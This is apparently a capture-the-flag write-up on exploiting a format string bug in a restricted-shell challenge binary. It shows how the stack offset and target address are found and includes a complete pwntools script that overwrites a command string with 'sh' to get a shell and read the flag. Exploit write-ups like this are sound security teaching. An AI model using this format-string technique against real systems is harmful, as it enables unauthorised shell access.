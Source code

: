 When we run the program, we can tell that it is just appears to just be a shell with only a few limited commands. When we look at the code in IDA, we can see that it is simply a C program that can make 3 system calls (“id”, “uname”, “ls”), and it can also change the shell prompt, and exit the code. 


Looking at the code, there is a format string vulnerability when it prints the shell prompt. We can define what that string is, it performs no checks on that data (once it is scanned into memory), and it uses the vulnerable printf function. So it is possible for us to overwrite one of the system calls with “sh”, which is what we will be doing. Soon I will post a more in depth Format Strings write up to my github (if it isn’t already there).


To exploit this we can use a utility from pwntools that will generate the string we need to rewrite one of the system calls with “sh”. It only needs three things for this exploit.

```
Offset: Distance on the stack until you hit the first formatter you control.
Address: The address of the place you want to write to
Value: The value you want to write to
```

To find out the offset, we can try inputting data into the prompt function, and reading places off of the stack until we see the data we inputed. I’m going to start off with just checking the first 10 bytes (doesn’t always work out that way).

```
./restrictedshell
rsh$ prompt
Enter new prompt string: aguy.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
aguy.64.f77345a0.f775e634.0.79756761.2e78252e.252e7825.78252e78.2e78252e.252e782
```

Remember I specified for it to output the hex, and plus it reads it in little Endian (so basically it’s backwards), so we are looking for the hex of “yuga” which is “79756761”. We see that in the fifth instance, so we know that the offset is 5.


Now to find the Address that we are going to write to, we could open it up in ObjDump and search for what value it pushes to the stack right before it calls system, like the example below (The symbol we’re looking for here is 0x8049c74)



```
 80487c0:       75 15                   jne    80487d7 <handle_connection+0xd4>
 80487c2:       83 ec 0c                sub    esp,0xc
 80487c5:       68 74 9c 04 08          push   0x8049c74
 80487ca:       e8 c1 fd ff ff          call   8048590 <system@plt>
 80487cf:       83 c4 10                add    esp,0x10
```



Or we can just have pwntools do all of the work, by specifying the binary and having it retrieve the symbol for that string.

```
elf = ELF("restrictedshell")
context(binary=elf)
print elf.symbols["cmd_uname"]
```

That will print out the address of that string. Now we just need to know the value we want to write over that. 

```
u32(“sh\0\0”)
```

Now that we have the three pieces, we can make the format string. It has to be in the following format.

```
payload = fmtstr_payload(offset, {address: value})
```

So in this case it should be

```
payload = fmtstr_payload(5, {elf.symbols[“cmd_uname”]: u32(“sh\0\0”)})
```

That is the most crucial part of this exploit. Once you have that, writing the rest of the exploit will be easy if you made it this far.

```
#Import pwntools
from pwn import *


#Setup the remot connection
conn = remote("ctf.hackucf.org", 7007)


#This establishes the binary which we will be pulling the symbols from
bin = ELF("restrictedshell")


context(binary=bin)


#This constructs the fromat string payload, and then prints it out
payload = fmtstr_payload(5, {bin.symbols["cmd_uname"]: u32("sh\0\0")})
print payload
 
#This sends "prompt" to the server so we can send exploit the vulnerabillity
conn.sendline("prompt")


#Now we send the payload
conn.sendline(payload)


#Now we just have to run the new uname, so we can get a shell
conn.sendline("uname")


#And now we drop to an interactive shell
conn.interactive()
```


```
python exploit.py
\x00$ ls
flag.txt
restrictedshell
$ cat flag.txt
flag{not_such_a_restrictive_shell_after_all}
```




